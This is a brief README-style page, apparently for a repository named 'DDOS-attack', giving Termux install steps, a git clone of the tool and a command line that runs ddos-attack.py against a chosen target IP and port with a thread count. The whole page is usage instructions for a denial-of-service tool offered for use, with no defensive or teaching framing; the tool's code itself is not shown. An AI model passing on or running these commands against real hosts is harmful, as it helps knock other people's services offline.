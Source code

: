 # DDOS-attack

pkg install update
pkg install upgrade
pkg install python
pkg install git
git clone https://github.com/bwGr007/DDOS-attack.git
cd DDOS-attack.git
python ddos-attack.py
python ddos-attack.py -s [ip] -p [port] -t 135(tekan enter)

